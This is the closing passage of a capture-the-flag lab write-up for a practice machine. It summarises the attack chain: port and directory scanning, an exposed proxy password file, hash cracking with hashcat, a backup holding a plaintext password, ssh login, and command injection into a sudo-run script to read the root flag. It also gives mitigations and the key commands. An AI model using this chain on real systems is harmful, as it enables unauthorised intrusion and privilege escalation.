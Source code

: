 
## ✅ Summary of Exploitation Path

| Phase                  | Technique / Tool                         | Result |
|------------------------|------------------------------------------|--------|
| Recon                  | `nmap`                                   | Ports 22, 80 |
| Web Enum               | `gobuster`                               | `/admin`, `/etc` |
| Credential Leak        | `/etc/squid/passwd`                      | `$apr1$` hash |
| Hash Cracking          | `hashcat -m 1600`                        | `squidward` |
| Backup Extraction      | `borg extract` with `squidward`          | User home backup |
| Credential Discovery   | `note.txt` in `Documents/`               | `alex:S3cretP@s3` |
| Initial Access         | `ssh alex@...`                           | User shell |
| Sudo Enumeration       | `sudo -l`                                | NOPASSWD script |
| Script Analysis        | `cat backup.sh`                          | `getopts -c` + `$($command)` |
| Command Injection      | `-c "cat /root/root.txt"`                | Root flag |
| Root Access            | Direct command execution as root         | Full compromise |

---

## 🔒 Mitigation & Lessons Learned

| Risk | Fix |
|------|-----|
| **Exposed `/etc/` directory** | Restrict web server root; use `.htaccess` or nginx `deny` |
| **Cleartext proxy credentials** | Use encrypted auth; rotate secrets |
| **Weak hash ($apr1$)** | Use bcrypt/scrypt/argon2 |
| **Password reuse** | Enforce unique passwords; use password manager |
| **Sudoable script with injection** | Validate/sanitize input; avoid `eval`/`$()` on user input |
| **Hardcoded paths in scripts** | Use variables; avoid static file lists |

---

## 🧾 Appendix — Key Commands

```bash
# Recon
nmap -p- -sV 10.201.113.2

# Web enum
gobuster dir -u http://10.201.113.2/ -w /usr/share/wordlists/dirb/common.txt

# Hash crack
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt

# Borg extract
borg extract --list archive_dir::music_archive

# SSH login
ssh alex@10.201.113.2

# Privesc
sudo -l
```